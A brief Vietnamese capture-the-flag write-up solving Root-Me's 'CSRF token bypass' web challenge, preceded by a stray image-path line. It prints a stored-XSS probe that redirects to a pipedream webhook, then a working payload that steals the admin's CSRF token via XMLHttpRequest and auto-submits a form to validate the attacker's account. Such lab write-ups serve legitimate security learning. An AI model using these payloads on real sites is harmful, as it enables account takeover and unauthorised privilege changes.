 # root-me - CSRF token bypass

Sau khi `register` trang web có phần `Private` chứa flag, tuy nhiên để xem được flag cần được `validate` từ admin.

![validated form](validate.png)

Ta cần submit form này để có thể validate tuy nhiên chỉ admin mới có quyền.

Trang web có tính năng `contact`, thử trigger xss request đến `webhook endpoint` thì đúng dính thật.

![contact form](xss-contact.png)

**Payload**: trigger
```html
<script>window.location.href=".*pipedream.*"</script>
```

Một vài lưu ý nhỏ là bot ở root-me khá lâu đời rồi nên không xài được `fetch` để gửi `post request` nhưng không sao cả, ta dùng `XMLHttpRequest`.

**Payload**: Sau nhiều lần đập đi test lại
```html
<form id="profile" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
	<input id="username" type="hidden" name="username" value="devme">
	<input id="status" type="hidden" name="status" value="on" >
	<input id="token" type="hidden" name="token" value="#" />
</form>

<script>
	var xhttp = new XMLHttpRequest();

	xhttp.onload = function() {
		var results = this.responseText;
		var token = results.match(/name="token" value="(.*)"/)[1];
		document.getElementById("token").setAttribute("value", token);
		document.forms[0].submit(); // submit post form sau khi trộm được token và set attr.
	}

	xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile"); // get request đến profile để trộm token.
	xhttp.send();

</script>
```

Dán vào contact form và ngồi đợi thôi!

**flag**:
![flag](flag.png)
